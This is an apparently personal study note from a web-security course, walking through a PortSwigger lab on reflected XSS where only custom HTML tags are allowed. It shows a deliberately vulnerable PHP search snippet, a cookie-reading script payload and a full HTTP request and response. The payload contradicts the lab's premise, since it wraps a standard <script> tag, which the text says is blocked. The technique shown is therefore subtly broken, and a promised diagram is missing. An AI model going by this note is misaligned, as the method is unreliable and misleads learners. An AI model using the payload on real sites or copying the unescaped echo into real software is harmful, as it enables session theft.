

## Lab Walkthrough: Reflected XSS with Custom Tags

### Step-by-Step Mechanics

1. **Identify the Input Field**:
   - The first step is to identify the input field where the user input is reflected. This could be a search bar, a comment form, or any other interactive element on the webpage.

2. **Inject a Custom Tag**:
   - Since all standard HTML tags are blocked, we need to use a custom tag. For example, `<customtag>`.

3. **Embed JavaScript**:
   - Within the custom tag, embed a JavaScript snippet that accesses the `document.cookie` property and triggers an alert.

4. **Trigger the Attack**:
   - Submit the input to the server and observe the response. The custom tag should be reflected in the HTML, and the JavaScript should execute, triggering the alert.

### Example Code

Let's walk through a complete example:

#### Vulnerable Code

Consider a simple search feature where the user input is directly embedded into the HTML response:

```php
<?php
$query = $_GET['query'];
echo "<h1>Search Results for: $query</h1>";
?>
```

#### Injected Payload

To exploit this vulnerability, we can inject a custom tag with embedded JavaScript:

```html
<customtag><script>alert(document.cookie)</script></customtag>
```

#### Full HTTP Request and Response

Here is the complete HTTP request and response:

```http
GET /search.php?query=%3Ccustomtag%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%3C%2Fcustomtag%3E HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close

HTTP/1.1 200 OK
Date: Mon, 20 Nov 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 123
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <h1>Search Results for: <customtag><script>alert(document.cookie)</script></customtag></h1>
</body>
</html>
```

### Mermaid Diagram: Attack Flow

A visual representation of the attack flow can help understand the sequence of events:



---
<!-- nav -->
[[14-Lab Setup and Environment|Lab Setup and Environment]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/19-Lab 18 Reflected XSS into HTML context with all tags blocked except custom ones/00-Overview|Overview]] | [[16-Real-World Examples and Recent Breaches|Real-World Examples and Recent Breaches]]
